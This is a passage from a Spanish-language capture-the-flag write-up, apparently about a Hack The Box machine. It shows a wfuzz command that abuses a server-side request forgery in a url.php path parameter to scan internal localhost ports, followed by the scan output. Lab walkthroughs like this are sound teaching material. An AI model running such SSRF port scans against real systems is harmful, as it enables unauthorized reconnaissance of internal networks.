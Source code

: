 Con la herramienta `wfuzz` aplicaremos fuzzing para realizar un Internal Port Discovering y ver si conseguimos ver algún puerto abierto de manera interna que no hayamos podido ver en el escaneo con nmap

```bash
❯ wfuzz -c --hh=2 -t 200 -z range,1-65535 "http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                        
=====================================================================

000000200:   200        3 L      2 W        22 Ch       "200"                                                                                                                                          
000000320:   200        26 L     109 W      1232 Ch     "320"                                                                                                                                          
000000022:   200        4 L      4 W        62 Ch       "22"                                                                                                                                           
000000888:   200        78 L     265 W      3955 Ch     "888"                                                                                                                                          
000000090:   200        11 L     18 W       156 Ch      "90"                                                                                                                                           
000000110:   200        17 L     24 W       187 Ch      "110"                                                                                                                                          
000003306:   200        2 L      5 W        123 Ch      "3306"                                                                                                                                         
000008080:   200        2 L      47 W       994 Ch      "8080"                                                                                                                                         
000060000:   200        78 L     130 W      1171 Ch     "60000"   
```

Enumerando los puertos encontrados nos llama la atención el puerto 888

